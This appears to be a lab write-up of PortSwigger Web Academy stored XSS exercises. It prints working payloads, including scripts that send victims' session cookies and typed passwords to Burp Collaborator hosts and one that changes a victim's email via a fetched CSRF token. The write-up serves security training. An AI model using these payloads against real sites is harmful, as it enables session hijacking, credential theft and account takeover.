 ```yaml
---
title: (Portswigger/WebAcademy) - Stored Cross-Site Scripting (XSS)
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-01-25 09:00:00 +0200
categories: [Web Application, Cross Site Scripting]
tags: [Notes, Cross Site Scripting, Stored XSS, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the stored XSS Vulnerabilities.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/cross-site-scripting#stored-cross-site-scripting) Labs, but i do intent do throw other labs and writeups here as well.

To learn more on the topic, please visit the article linked above at Portswigger's.

## TOC

# Lab: Stored XSS into HTML context with nothing encoded

> This lab contains a stored cross-site scripting vulnerability in the comment functionality.
> 
> To solve this lab, submit a comment that calls the alert function when the blog post is viewed.

This is the webpage that we get on after we spin the lab.

![picture 1](/assets/images/c89ad083d0dfbc6bf908dee03f3b85576fec9ebd6173fb6b404523c35c5d80e7.png)  

We can send a post.

![picture 2](/assets/images/b031e33dd7fe51dd43480a4dd071803536d0795eb5608944dd97f82f19c204aa.png)  

Alert triggers on `Comment` entry:

![picture 3](/assets/images/03597b44f2184b36720316eb36fc70a886f1dacd05813a8c4e9d50a793a13804.png)  

Source Code
```html
<section class="comment">
  <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar">                            
    <a id="author" href="http://&lt;script&gt;alert(3)&lt;/script&gt;.com">test&lt;script&gt;alert(2)&lt;/script&gt;</a> | 27 January 2023
  </p>
  <p><script>alert(1)</script></p>
  <p></p>
</section>
```

# Exploiting cross-site scripting to steal cookies
**Collaborator has to be used in order to solve the lab**
> This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Webpage looks like in the previous lab.

We can trigger XSS in the `Comment` section.

![picture 4](/assets/images/207ea1c0215ff613634222a0788608ef5d3b3036d263a45d838dff43c35dd32d.png)  

Cookie will be printed in the alert popup.

![picture 5](/assets/images/dfa0f7dced73cca96f7ccd9020d0535652a8daa0ca86b3394b8a8940aebbe788.png)  

As we now need to exfiltrate the token, we'll need to use payload that will send that token to Burps Collaborator.

```
<script>location='http://iyk9morvj5u0hqdrwttw8300frli98xx.oastify.com/c='+document.cookie;</script>
```

We should soon see an entry in our Collaborator.

![picture 7](/assets/images/ccf5b54528ffc0de04cfd6fe3b61394e68582f7596e839821a832c568a002ad3.png)  

We can now simply change `session` token with the one found in Collaborator.

![picture 6](/assets/images/d87e266a5bc8a745214dadedbafddec619288d01d508bc10afe3f07f026ca1ad.png)  

# Exploiting cross-site scripting to capture passwords
**Collaborator has to be used in order to solve the lab**

> This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

Lab looks exactly the same as the previous ones. We can send posts where XSS vulnerability resides.

First we have to find a XSS:

![picture 1](/assets/images/380f214820fd243663c105a8103b8d96c407ff27dce6f11e8b3923d8e6ebb82f.png)  

This fires an alert.

To read the stored passwords, following payload will be used.

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length) fetch('https://b5hjav637onob24mud688qqf46axyqmf.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

![picture 8](/assets/images/1abcc075df1dc799630ce9a219c1cb6b366fccf029333c02d5f0adec91a0f95a.png)  

Let's add a comment. We should get a callback from a victim:

![picture 2](/assets/images/7a657e5733a65cfd26fd1b85d09f385255cee4785e20fb8beff919bb3149bd45.png)  

Log in and finish the lab.

# Exploiting cross-site scripting to perform CSRF
> This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.
> 
> You can log in to your own account using the following credentials: `wiener:peter`

Same as in the previous lab, there is a Stored XSS in the comment field.

![picture 3](/assets/images/98d18a2e7d0867853efde02b03327465adbd5bf74a1f722c847aba59aad2cd82.png)  

This is the payload which will fetch the CSRF token and change the email from victim.

```html
<script>
function xss(url, text, formData) {
  fetch(url+"/change-email", {
  method: "POST",
  body: formData
  })
}

function fetchUrl(url, email){
	fetch(url).then(r => r.text().then(text => {
		  xss(url, text, 'email='+email+'&csrf='+text.match(/csrf" value="([^"]+)"/)[1]);
	}))
}

fetchUrl("https://0a87006804525819c1b3cb09006500cf.web-security-academy.net/my-account", "test@test.de");
</script>
```

![picture 4](/assets/images/51b82672a4c0bd2ff9625a5246b66ecbdf939f637643e15daac368227d2c56cb.png)  

# Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

> This lab contains a stored cross-site scripting vulnerability in the comment functionality.
> 
> To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.

If we add a comment and if we check the source code afterwards, we'll notice that our email addrss get's embedded into HTML like this

```html
<p>
  <img src="/resources/images/avatarDefault.svg" class="avatar">
    <a id="author" href="http://test.de" onclick="var tracker={track(){}};tracker.track('http://test.de');">test</a> 
  | 24 March 2023
</p>
```

If we add single or double quotes, they will get escaped 

```html
<a id="author" href="http://\'&quot;alert(3).com" onclick="var tracker={track(){}};tracker.track('http://\'&quot;alert(3).com');">a</a>
```

Payload used in Webpage field: `http://a?&apos;-alert(1)-&apos;`

And this is how it got escaped:

```html
<a id="author" href="http://a?'-alert(1)-'" onclick="var tracker={track(){}};tracker.track('http://a?'-alert(1)-'');">s</a>
```

Alert has fired and lab has been solved.

![picture 5](/assets/images/57e85b8312bdcbd2c97324e3cb3c2df3e43d693ca98677ed0e2cd28948ef2e1b.png)  
